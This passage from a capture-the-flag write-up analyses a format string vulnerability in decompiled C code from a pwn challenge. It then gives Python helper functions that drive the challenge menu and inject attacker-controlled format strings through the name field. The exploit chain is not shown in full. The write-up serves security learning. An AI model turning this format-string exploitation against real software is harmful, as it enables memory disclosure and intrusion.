 #### read_info

We can print `name`, `age` and `date` in this function. If the `date` is a valid format, `printf(src + 36)` which hold a format string vulnerability would be called!

```c
unsigned __int64 read_character_infos(){
  __int64 v1; // [rsp+0h] [rbp-40h]
  char *src; // [rsp+8h] [rbp-38h]
  char dest; // [rsp+10h] [rbp-30h]
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf(" [ Character index ]: ");
  LODWORD(v1) = read_user_int();
  if ( v1 >= 0 && v1 <= 3 && jail[v1] ) {
    src = jail[v1];
    strncpy(&dest, jail[v1], 0x20uLL);
    printf("Character name: %s\n", &dest, v1);
    printf("Age: %d\n", *(src + 8));
    strncpy(&dest, src + 36, 0x20uLL);
    printf("He's been locked up on ", src + 36);
    if ( check_date_format((src + 36)) )
      printf(src + 36);       // fmtstring vuln here
    else
      printf("an invalid date.");
    puts(".");
  }
  else {
    puts("  [!] Invalid index.");
  }
  return __readfsqword(0x28u) ^ v4;
}
```

#### helper funtion

I define some helper function for exploiting:

```python
def add(index):
    sla('peterpan@pwnuser:~$ ','2')
    sla(' [ Character index ]: ',str(index))
    sla('  Name: ','TaQini')
    sla('  Age: ','18')
    sla('  Date (mm/dd/yyyy): ','02/02/2020')

def edit(index,fmt):
    sla('peterpan@pwnuser:~$ ','4')
    sla(' [ Character index ]: ',str(index))
    sla('  Name: ','TaQiniAAAA'+fmt)
    sla('  Age: ','20')
    sla('  Date (mm/dd/yyyy): ','02/04/2020')

def read_info(index):
    sla('peterpan@pwnuser:~$ ','3')
    sla(' [ Character index ]: ',str(index))
```
